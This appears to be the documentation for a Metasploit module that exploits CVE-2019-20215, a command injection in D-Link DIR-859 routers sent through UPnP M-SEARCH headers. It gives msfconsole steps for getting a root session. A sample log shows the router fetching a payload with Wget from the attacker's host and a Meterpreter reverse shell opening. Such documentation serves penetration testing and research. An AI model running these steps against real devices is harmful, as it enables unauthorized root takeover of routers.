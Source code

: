 ## Vulnerable Application

### Introduction

This module exploits CVE-2019–20215, an unauthenticated remote injection of
operating system commands. The vulnerability was found in the ssdpcgi()
function, and the payload can be injected through either the UUID or URN headers
of a M-SEARCH UPnP request.

Get a
[D-Link router/vulnerable firmware](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147),
or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar
emulation frameworks.

## Verification Steps

1. Set up router/emulated device
2. Start `msfconsole`
3. Do: `use exploit/linux/http/dlink_dir859_exec_ssdpcgi`
4. Do: `set RHOSTS <router_ip>`
5. Do: `set LHOST <local_ip>`
6. Do: `set TARGET <URN/UUID>`
7. Do: `run`
8. You should get a session as `root`.

## Options

**VECTOR**

This option denotes which header will be used in the request (UUID or URN) that
triggers the vulnerability.

## Scenarios

### D-link DIR-859 Firmware 1.05

```
msf5 exploit(linux/http/dlink_dir859_exec_ssdpcgi) > run
[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Using URL: http://0.0.0.0:8080/38YWEX2
[*] Local IP: http://192.168.70.28:8080/38YWEX2
[*] Target Payload URN
[*] Client 192.168.0.1 (Wget) requested /38YWEX2
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.1:41057) at 2029-12-31 14:15:22 -0300
[*] Server stopped.
meterpreter >
```
